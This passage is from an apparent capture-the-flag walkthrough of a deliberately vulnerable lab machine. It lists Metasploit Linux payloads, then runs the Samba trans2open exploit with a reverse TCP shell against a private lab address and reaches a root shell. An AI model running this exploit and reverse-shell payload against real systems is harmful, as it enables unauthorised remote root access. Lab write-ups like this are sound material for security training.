   10  linux/x86/meterpreter/bind_nonx_tcp                        manual  No     Linux Mettle x86, Bind TCP Stager
   11  linux/x86/meterpreter/bind_tcp                             manual  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   12  linux/x86/meterpreter/bind_tcp_uuid                        manual  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   13  linux/x86/meterpreter/reverse_ipv6_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   14  linux/x86/meterpreter/reverse_nonx_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager
   15  linux/x86/meterpreter/reverse_tcp                          manual  No     Linux Mettle x86, Reverse TCP Stager
   16  linux/x86/meterpreter/reverse_tcp_uuid                     manual  No     Linux Mettle x86, Reverse TCP Stager
   17  linux/x86/metsvc_bind_tcp                                  manual  No     Linux Meterpreter Service, Bind TCP
   18  linux/x86/metsvc_reverse_tcp                               manual  No     Linux Meterpreter Service, Reverse TCP Inline
   19  linux/x86/read_file                                        manual  No     Linux Read File
   20  linux/x86/shell/bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   21  linux/x86/shell/bind_ipv6_tcp_uuid                         manual  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   22  linux/x86/shell/bind_nonx_tcp                              manual  No     Linux Command Shell, Bind TCP Stager
   23  linux/x86/shell/bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   24  linux/x86/shell/bind_tcp_uuid                              manual  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   25  linux/x86/shell/reverse_ipv6_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   26  linux/x86/shell/reverse_nonx_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager
   27  linux/x86/shell/reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp_uuid                           manual  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell_bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind TCP Inline (IPv6)
   30  linux/x86/shell_bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Inline
   31  linux/x86/shell_bind_tcp_random_port                       manual  No     Linux Command Shell, Bind TCP Random Port Inline
   32  linux/x86/shell_reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Inline
   33  linux/x86/shell_reverse_tcp_ipv6                           manual  No     Linux Command Shell, Reverse TCP Inline (IPv6)

<b>msf5 exploit(linux/samba/trans2open) ></b> set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.222.130  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> run

[*] Started reverse TCP handler on 192.168.222.129:4444 
[*] 192.168.222.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.222.129:4444 -> 192.168.222.130:1030) at 2020-12-08 10:22:39 -0500

<p style="color:#05c820">
whoami
root
pwd
/tmp
</p>

</pre>
</details>

Set the necessary options, and run the exploit!
Congrats Matey! You are now root. Hope you enjoyed the first machine of K1optr1x series! 



[1]: https://i.imgur.com/4VJ39cH.png
[2]: https://i.imgur.com/O13Jjr0.png
[3]: https://i.imgur.com/9gwmLN0.png
[4]: https://i.imgur.com/HEWW8uU.png